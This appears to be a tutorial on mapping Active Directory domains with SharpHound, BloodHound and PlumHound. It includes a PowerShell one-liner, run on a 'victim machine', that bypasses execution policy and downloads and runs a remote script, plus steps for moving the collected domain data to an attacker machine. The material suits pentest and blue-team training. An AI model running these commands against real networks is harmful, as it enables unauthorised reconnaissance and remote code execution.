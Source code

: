 Method 1: SharpHound can be downloaded on the attacker machine as “SharpHound.ps1”, imported and executed with the Collection Method of “all” for the most information about the domain.

powershell -ep bypass. .\Sharphound.ps1Invoke-Bloodhound -CollectionMethod All -Domain <DOMAIN_NAME>

![](https://miro.medium.com/v2/resize:fit:624/1*05bybHPY_jnP9ojrz3Sm2w.png)

**Method 2:** SharpHound can be downloaded and executed in the victim machine with an example oneliner below:

powershell -ep bypass "IEX(New-Object Net.Webclient).DownloadString('[https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1](https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1)');Invoke-Bloodhound"

![](https://miro.medium.com/v2/resize:fit:700/1*Lvhkqx_txs5xrqvXbo1M5g.png)

The output zip file should be uploaded to the attacker machine for further investigation of the related domain.

# 2. BloodHound

The output zip file which was downloaded earlier should be imported to BloodHound. BloodHound can be downloaded in Linux machines with the commands below:

apt install bloodhoundneo4j console  // Open the console on your browser.   username: neo4j   password: neo4j  // Asks you to change the password.bloodhound   username: neo4j   password: <new password>

The output zip file can be imported from “Upload Data” button on the right of the BloodHound GUI screen.

![](https://miro.medium.com/v2/resize:fit:138/1*O0W1AmzijttVCkl7LQkMSA.png)

After the upload completes, pre-build queries and their graphs can be observed:

![](https://miro.medium.com/v2/resize:fit:343/1*cbkA-Ix9q136zi0Jf6PO8w.png)

An example from the demonstration can be seen below:

![](https://miro.medium.com/v2/resize:fit:626/1*MaNK5SSCBKdCepJKuQ8UdQ.png)

# 3. PlumHound

Although BloodHound is a powerful tool to graph Active Directory, it can be mind-bending to correlate between information on maps of large networks… like, you know... like this:

![](https://miro.medium.com/v2/resize:fit:383/1*qdxB7QL1YTTrwTd7j9sRZQ.png)

To end the confusion over graphs, a new tool was introduced: PlumHound. PlumHound, which was essentially written for Blue and Purple Teams, operates by wrapping BloodHoundAD’s Neo4J backend cipher queries into reports. Blue and Purple Teams can identify and harden Active Directory configuration vulnerabilities by analyzing the output reports of PlumHound.
